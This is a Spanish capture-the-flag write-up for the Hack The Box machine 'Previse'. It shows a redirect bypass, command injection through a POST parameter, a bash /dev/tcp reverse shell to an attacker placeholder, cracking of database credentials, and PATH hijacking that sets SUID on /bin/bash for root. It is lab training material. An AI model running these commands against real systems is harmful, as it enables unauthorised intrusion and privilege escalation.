








---

**Máquina:** Previse

**Plataforma:** Hack The Box

**Laboratorio:** https://app.hackthebox.com/machines/Previse

**Target:** 10.10.11.104

---

# Guía de explotación paso a paso 'Previse'

## Enumeración

Acción: escaneo inicial con nmap

```Shell
nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.11.104 -oG allPorts
```

Resultado:

```Shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Explicación: 

---

Acción: enumeramos  con  *gobuster*

```Shell
gobuster dir -u http://10.10.11.104/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php
```

Resultado:

```Shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]
/nav.php              (Status: 200) [Size: 1248]
/footer.php           (Status: 200) [Size: 217]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2968] [--> login.php]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
```

Explicación: tenemos varios endpoint interesante, pero vemos que se aplica un redirect. vamos a analizar este endpoint `/accounts.php` con BurpSuite


Vemos que para este endpoint desde BurpSuite tenemos capacidad de visualizar el contenido antes de aplicar el redireccionamiento. Algo que podemos probar es a cambiar el código de estado de de `302 redirect` a `200 OK`




Enviamos la petición interceptada a ' Do intercept --> Response to this request' para tras darle a 'Forward' obtener la respuesta



Como vemos en la respuesta se aplica un redirect con código de estado `302`, algo que podemos probar es a cambiar su código a un `200 OK` y darle  a 'Forward' para ver si en el navegador nos lleva a la página de registro de usuario que veíamos ante desde el 'Repeater'




Y efectivamente, al cambiar el código de estado y enviar la petición obtenemos en el navegador acceso a un panel oculto para registro de usuarios. Ahora podemos probar a registrar un usuario y ver si podemos loguearnos desde el panel de `/login.php` al que nos redirige todo el tiempo



Creamos un usuario con éxito y nos logueamos



Por las diferentes pestañas lo primero que llama la atención es un archivo `.ZIP` que si pinchamos en él se nos descarga. Al descomprimirlo tenemos diferentes archivos `.php`. 



```bash
accounts.php  config.php  download.php	file_logs.php  files.php  footer.php  header.php  index.php  login.php	logout.php  logs.php  nav.php  status.php
```

Entre todos ellos, dos tiene información muy relevante.

**logs.php:** la siguiente línea del código permite la concatenación de comandos `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`

```bash
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```

**config.php:** se muestras las credenciales de la base de datos que corre por el servidor

```bash
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

Conclusión: como tenemos dos vectores podemos usar la concatenación de comandos vista en `logs.php` para enviarnos una **Reverse Shell** para una vez ganado acceso, tratar de elevar privilegios con la obtención de credenciales desde la base de datos **mysql** 

En la pestaña `MANAGEMENT MENU` y su sub pestaña `LOGS DATA` tenemos un desplegable, al parecer de diferentes logs que se almacenan. Si le damos a `SUBMIT` vemos que se nos descarga el archivo log bajo el nombre `out.log` que es lo mismo que veíamos en el archivo `logs.php` en la línea `$filename = "out.log";`. Esto quiere decir que si interceptamos con [Burp Suite](../../../Herramientas/Burp%20Suite/BurpSuite.md) este es el endpoint donde podemos concatenar comandos para enviarnos una Reverse Shell.
 



Enviamos un ping a nuestra IP para ver si recibimos traza con *tcpdump*. Usamos el comando `; ping -c 1 IP_ATACANTE`



Acción: nos ponemos en escucha con tcpdump para ver si recibimos traza `icmp` 

```bash
tcpdump  -i tun0 icmp -n
```

Resultado: confirmamos que tenemos conexión, ya que recibimos traza `icmp` desde la IP de la máquina víctima

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:19.580369 IP 10.10.11.104 > 10.10.16.4: ICMP echo request, id 21619, seq 1, length 64
16:16:19.581649 IP 10.10.16.4 > 10.10.11.104: ICMP echo reply, id 21619, seq 1, length 64
```

Conclusión: ahora podemos enviarnos una Reverse Shell con el típico oneliner de bash

```bash
bash -c "bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1"
```

**Nota:** es conveniente cuando se envía en html urlencodear los `&`. Se puede hacer con `ctrl+u` seleccionándolo, o poniendo en su lugar `%26`

---

## Explotación de bypass de control de acceso client-side

Si enviamos este oneliner mientras estamos en escucha con `nc` recibiremos acceso a la máquina víctima

```bas
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.104] 59604
bash: cannot set terminal process group (1604): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ whoami
whoami
www-data
bash-4.4$ 
```

Ahora sería cuestión de escalar privilegios para pasar del usuario `www-data` a otro usuario del sistema, y de él a `root`

---

# PATH Hijacking
## Escalada de privilegios

**Nota:** para un tratamiento de la TTY que permita hacer `ctrl+c`, `ctrl+l`, y otras utilidades de una bash funcional, visitar [TTY Interactiva](../../../Técnicas/Tratamiento%20de%20la%TTY/TTY%20Interactiva.md)

Acción: desde la máquina comprometida seguimos la siguiente secuencia. Recordemos el plan, como hemos ganado acceso, ahora tratamos de obtener credenciales desde la base de datos MySQL

```bash 
mysql -uroot -p  # introducimos la contraseña encontrada --> mySQL_p@ssw0rd!:)
```

Resultado: 

```bash
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 65
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Acción: tratamos de listar la información de esta base de datos. Para una explicación de estos comandos ver [SQLi](../../../Bases%20de%20datos%20db/SQL/Mariadb/Mariadb%20-%20inyección%20SQL.md)

```bash 
show databases;
use previse;
show tables;
select * from accounts;
```

Resultado:

```bash 
+----+-------------+------------------------------------+---------------------+
| id | username    | password                           | created_at          |
+----+-------------+------------------------------------+---------------------+
|  1 | m4lwhere    | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | Metahumo123 | $1$🧂llol$orWTo1HYbAVFCHThcDLPB0 | 2025-06-16 13:55:26 |
+----+-------------+------------------------------------+---------------------+
```

Explicación: tenemos al usuario `m4lwhere` con una contraseña hasheada `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` podemos tratar de romperla con [Hashcat](../../../Herramientas/Fuerza%20Bruta/Hashcat.md)

---

Acción: para romper la contraseña con **Hashcat**, guardamos el hash en un archivo, y usamos la herramienta [Hashcat](../../../Herramientas/Fuerza%20Bruta/Hashcat.md) junto al diccionario `rockyou`

```Shell
echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > hash
```

Acción: esperamos a que concluya ya que puede tardar. Usando la tecla `s` y dándole a `enter` podemos ver el estado de la fuerza bruta

```bash
sudo hashcat hash /usr/share/wordlists/rockyou.txt
```

Resultado: cuando acabe o encuentre el resultado válido se verá así

```HTML
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Mon Jun 16 16:50:40 2025 (6 mins, 29 secs)
Time.Estimated...: Mon Jun 16 16:57:09 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    15908 H/s (7.53ms) @ Accel:64 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7413504/14344385 (51.68%)
Rejected.........: 0/7413504 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: ilovecody98 -> ilovecj9/21
Hardware.Mon.#1..: Util: 88%

Started: Mon Jun 16 16:50:26 2025
Stopped: Mon Jun 16 16:57:11 2025
```

Explicación: ahora podemos probar la contraseña encontrada `ilovecody112235!` en el usuario con `su m4lwhere`
 
## [PATH Hijacking](../../../Técnicas/Escalada%20de%20privilegios) para usuario root

Acción: como usuario `m4lwhere`

```Shell
sudo -l
```

Resultado:

```Shell
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Explicación:  tenemos un script que podemos ejecutar como usuario root

**Primero** confirmamos que no tenemos permisos de escritura en este archivo. 
**Segundo** analizamos el script que podemos ejecutar con `cat`

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

**Tercero** confirmamos posible [PATH Hijacking](../../../Técnicas/Escalada%20de%20privilegios/PATH%20Hijacking.md) ya que el comando `gzip` se esta ejecutando de forma relativa. Por lo que podemos atentar contra el `PATH` del sistema, modificándolo para que busque el recurso `gzip` en una ruta anterior en la que realmente se almacena

```bash
bash-4.4$ gzip  # vemos que se ejecuta relativamente
gzip: compressed data not written to a terminal. Use -f to force compression.
For help, type: gzip -h
bash-4.4$ which gzip   # su binario es este
/bin/gzip
echo $PATH     # así está el PATH actualmente
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
cd /tmp/    # vamos al directorio /tmp
touch gzip  # creamos un archivo llamado gzip 
chmod +x gzip   # le damos permisos de ejecución
```

Acción:  con `nano gzip` editamos el archivo añadiendo lo siguiente

```Shell
#!/bin/bash

chmod u+s /bin/bash
```

Acción:

```Shell
export PATH=/tmp/:$PATH
```

Explicación:  hemos dado permisos [SUID](../../../Técnicas/Escalada%20de%20privilegios/SUID.md) al binario `/bin/bash` lo que nos va a permitir ejecutarnos una bash como `root`, además lo hemos añadido al PATH para que este al principio y cuando ejecutemos el script con permisos de root acuda primero a nuestra ruta para acceder a gzip y habilite los permisos SUID al binario bash


Acción: 

```bash 
sudo /opt/scripts/access_backup.sh  # si falla probar `sudo -u root /opt/scripts/access_backup.sh`
ls -ls /bin/bash   # listamos los permisos de bash y vemos que tiene SUID
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
bash -p  # con esto nos lanzaríamos una bash como root y ya estaría resuelta la máquina
```


---

